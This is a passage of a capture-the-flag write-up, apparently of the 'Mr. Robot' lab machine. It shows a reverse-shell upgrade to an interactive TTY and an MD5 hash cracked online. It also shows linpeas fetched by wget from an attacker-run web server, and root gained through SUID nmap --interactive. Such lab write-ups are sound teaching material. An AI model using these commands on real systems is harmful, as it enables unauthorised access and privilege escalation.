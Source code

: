 Netcat got the connection, and I had access to the machine with the user daemon.

For higher comfort, I upgraded the reverse shell to an interactive TTY shell. First, I upgraded from shell to bash:

`SHELL=/bin/bash script -q /dev/null`  

Then I spawned bash via Python’s pty module:

`python -c 'import pty; pty.spawn("/bin/bash")'` 

For the full interactive TTY shell, I backgrounded my current remote shell, updated the local terminal line settings with stty, and foregrounded the remote shell again:

`stty raw -echo && fg`

### Enumerating the machine

The second key was located in /home/robot, but unfortunately, the file was only readable by robot. But there was another file readable by everyone. It contained a MD5 hash.

My first try was to check it on a rainbow table before trying to crack it myself, which can be really time-consuming. Luckily, the password was very easy and contained in the rainbow table of [crackstation](https://crackstation.net/).

With this password, I could switch to the user robot and read the keyfile that contained the second key.

The third key should be the root flag that is usually located in /root. I needed root privileges to read the file. At first, I tried some basic methods to escalate my privileges, but the user robot is unfortunately not allowed to use `sudo` and there was nothing interesting in the crontab. So I decided to let a script do the work for me and use linpeas.

Since the machine had no internet connection, I could not download the script from the GitHub repository, and I couldn’t `scp` the file to the machine because ssh was not running. So I used a Python web server:

`python3 -m http.server 6666`

and

`wget http://10.18.18.18:6666/linpeas.sh`

The execution of the `linpeas` script unfortunately failed repeatedly, so I used `linenum` instead.

### Privilege Escalation

`linenum` found that `nmap` had set the SUID bit. The SUID bit means that `nmap` is not executed with the permissions of the user that is executing it, but with the permission of its owner. And the owner is `root`.

I chose `nmap --interactive`:

```bash
nmap --interactive 
nmap> ! /bin/bash -p
bash-4.3# cat /root/key-3-of-3.txt
```

The content of the file was the last piece of information I needed to complete the CTF.
